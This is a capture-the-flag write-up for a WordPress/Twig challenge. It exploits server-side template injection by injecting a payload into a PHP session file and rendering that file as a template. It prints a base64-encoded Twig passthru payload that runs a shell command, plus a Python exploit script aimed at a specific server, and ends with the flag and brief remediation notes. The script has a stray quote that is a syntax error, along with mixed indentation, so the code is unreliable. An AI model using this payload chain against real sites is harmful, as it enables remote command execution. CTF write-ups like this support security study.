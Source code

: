 1. Write an SSTI payload into the PHP session file. Bypass the blacklist using base64.b64decode("e3tbInN0cmluZ3MgL2ZsYWcudHh0Il18bS5hcCgicGFzc3RocnUiKX19"). (Read [source](https://blog.sometimenaive.com/2020/04/10/twig3.x-ssti-payloads/)). Note: base64 only for escape this Jekyll Blog Post, you can decode it.
2. Render the template by using the PHP session file as the template via a GET request to /?page=sess\_{PHPSESSID}.

**Exploitation:**

```python
import requests
import base64
from urllib.parse import *

URL = 'http://100.25.255.51:9095/'

class Exploit:
	def __init__(self, url=URL):
		self.url = url
		self.session = requests.session()

	def injectSession(self):
        # base64 only for escape this Jekyll Blog Post
		data = {'action':'save_session','session_data':f'{base64.b64decode("e3tbInN0cmluZ3MgL2ZsYWcudHh0Il18bS5hcCgicGFzc3RocnUiKX19")}'}'
		req = self.session.post(urljoin(self.url, '/wp-admin/admin-ajax.php?action=save_session'), data=data)

		return req.text

	def renderTemplate(self):
		req = self.session.get(urljoin(self.url, f'?page=sess_{self.session.cookies.get_dict()["PHPSESSID"]}'))
		return req.text

if __name__ == '__main__':
	run = Exploit()
	run.injectSession()
	print(run.renderTemplate())
```

Run the exploit, and the FLAG is retrieved.
![Flag](/assets/img/Patchstack-WCUS-CTF-2024/Timberlake_Flag.png)

**Flag:** CTF{f0rc3d_sst1_ch4ll_zz4z2561}

**Remediation:**

- Sanitize user input before passing to Twig, use esc_attr or esc_html function
- Filter character that construct Twig render like `*%}{#`


[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn